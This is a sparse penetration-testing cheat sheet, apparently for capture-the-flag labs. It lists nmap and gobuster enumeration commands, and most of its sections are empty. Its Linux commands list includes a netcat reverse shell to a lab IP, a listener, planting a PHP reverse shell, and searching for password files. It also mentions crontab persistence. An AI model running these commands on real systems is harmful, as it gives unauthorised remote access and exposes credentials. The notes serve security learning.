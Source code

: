 # Enumuration

## NMAP
* *sudo nmap -sC -sV -O -oA \<Output Directory\> \<IP Address\>* - Basic nmap scan for the top ports only. (-sC for default scripts, -sV for version enum, -O for OS enum)
* *sudo nmap -sC -sV -O -p- -oA \<Output Directory\> \<IP Address\>* - Scan for all the ports.
* *nmap --script vuln -oA \<Output Directory\> \<IP Address\>* - Run vulnerability scripts on the target.
* *nmap -sU -oA \<Output Directory\> \<IP Address\>* - Runs a scan for the top UDP ports.

## Fuzzing
* *gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u \<IP Address\>* - You can use another wordlist as well.
* *gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u \<IP Address\> -f* - (-f) is used when the server treats /cgi-bin and /cgi-bin/ differently.
* gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u \<IP Address\>/<Directory>/ -x sh,cgi - Searches for files in a directory and (-x) is used to specify the extension.

## Windows Exploits
* Blue
* PEASS-ng
* 
## Linux Exploits

## Privilege Escalation

## Reverse Shells 

## How to upgrade a shell.

## How to brute force

## How to break hash

## Useful Commands (Linux)
* grep/search/etc..
* sudo -l
* whoami
* id
* uname -a
* sudo -i -u scriptmanager
* locate password | grep john
* cp php-reverse-shell.php artisan
* nc -nlvp 4444
* nc -nv 10.10.14.30 4444 -e /bin/sh (Target machine to send a reverse shell)
* chmod +x \<File Name\>
* searchsploit --id httpd


## Useful Commands (Windows)
* grep/search/etc..
* sudo -l
* 
## Useful Information (General)
* Even if you don't have access to a directory you might have access to the files in that directory. (When you get a 403, try fuzzing inside the directory)
* Some servers treat /Directory and /Directory/ differently, the first one might not be accessible but the second might be, make sure to check both when fuzzing.


## Useful Information (Linux)
* Crontab are a list of commands in Linux that are executed on a regular basis. Making it a useful persistent technique and privilege escalation technique.
* If a reverse shell is executed by a specific user, the shell granted will be of that user's privilege. (i.e. if you executed a shell as root, you will get root shell)
* Sometimes even if you can execute a file, you can read/write to it.
* Sometimes even if you aren't root, you can run specific commands with root privilege.

## Useful Information (Windows)
